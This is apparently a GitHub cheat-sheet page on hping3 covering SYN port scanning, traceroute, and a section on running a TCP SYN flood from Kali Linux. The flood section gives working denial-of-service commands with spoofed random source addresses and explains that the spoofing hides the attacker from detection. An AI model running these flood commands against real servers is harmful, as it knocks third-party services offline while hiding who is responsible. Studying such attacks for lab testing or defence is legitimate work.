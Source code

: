 #### Port Scanning
**sudo hping3 -S <ip_address> -p <port> -c <number_of_packets>**  

#### Traceroute using Hping3
This illustration is like popular utilities like tracert (windows) or traceroute (linux) who utilizes ICMP packets expanding each time in 1 its TTL value.  
**sudo hping3 --traceroute -V -1 <ip_address>**

  
#### Perform A TCP Syn Flood Attack With Kali Linux & Hping3
**1. sudo hping3 -a <FAKE IP> <target> -S -q -p 80 --faster**  
**2. Syntax - hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.225.128**  
  
We’re sending 15000 packets (-c 15000) at a size of 120 bytes (-d 120) each. We’re specifying that the SYN Flag (-S) should be enabled, with a TCP window size of 64 (-w 64). To direct the attack to our victum’s HTTP web server we specify port 80 (-p 80) and use the --flood flag to send packets as fast as possible. As you’d expect, the --rand-source flag generates spoofed IP addresses to disguise the real source and avoid detection but at the same time stop the victim’s SYN-ACK reply packets from reaching the attacker.
